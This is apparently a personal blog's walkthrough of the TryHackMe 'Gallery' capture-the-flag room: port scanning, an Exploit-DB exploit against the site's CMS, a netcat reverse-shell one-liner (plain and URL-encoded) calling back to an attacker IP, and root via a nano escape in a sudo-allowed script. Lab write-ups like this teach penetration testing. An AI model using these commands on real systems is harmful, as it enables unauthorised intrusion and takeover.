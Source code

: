```yaml
---
title: Gallery - Writeup
author: Elman Alizadeh
date: 2022-04-18 14:10:00 +0800
categories: [ctf, TryHackMe]
tags: [tryhackme, gallery]
---
```


Today we will take a look at TryHackMe: Gallery. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/thm-gallery/1.png" | relative_url }})

## Question: How many ports are open?

Command: sudo nmap -sS -sC -sV -oN nmap/initial 10.10.157.45

![Desktop View]({{ "/assets/img/thm-gallery/2.png" | relative_url }})

## Question: What’s the name of the CMS?

![Desktop View]({{ "/assets/img/thm-gallery/3.png" | relative_url }})

Answer: S***** I**** G******

I searched for a suitable exploit and found it

[Exploit](https://www.exploit-db.com/exploits/50214)

Let’s exploit.

Command: locate 50214.py

Command: searchsploit -m /usr/share/exploitdb/exploits/php/webapps/50214.py

Command: python 50214.py

![Desktop View]({{ "/assets/img/thm-gallery/4.png" | relative_url }})

## Get Reverse Shell

```console
Command: rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4242 >/tmp/f
```

But first let’s encode

[Url_encode](https://www.urlencoder.org/)

Command: rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.8.223.65%204242%20%3E%2Ftmp%2Ff%0A

Enter these commands after receiving the Reverse Shell

Command: script /dev/null -c bash

Command: export TERM=xterm

Command: ctrl+z

Command: stty raw -echo ; fg

Command: reset

![Desktop View]({{ "/assets/img/thm-gallery/5.png" | relative_url }})

Let’s enumerate the machine with linpeas.sh.

[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

![Desktop View]({{ "/assets/img/thm-gallery/6.png" | relative_url }})

Here we found the necessary credentials credentials

![Desktop View]({{ "/assets/img/thm-gallery/7.png" | relative_url }})

Let’s change the user.

Command: su mike

![Desktop View]({{ "/assets/img/thm-gallery/8.png" | relative_url }})

## Privilege Escalation

Let’s look at the file rootkit.sh

![Desktop View]({{ "/assets/img/thm-gallery/9.png" | relative_url }})

Here we can use nano to get a shell. Let’s take a look at this

[Gtfo/nano](https://gtfobins.github.io/gtfobins/nano/)

Command: sudo -u root /bin/bash /opt/rootkit.sh

Command: read

Command: CTRL+R

Command: CTRL+X

Command: reset; sh 1>&0 2>&0

![Desktop View]({{ "/assets/img/thm-gallery/10.png" | relative_url }})

## And now we are the root

![Desktop View]({{ "/assets/img/thm-gallery/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”








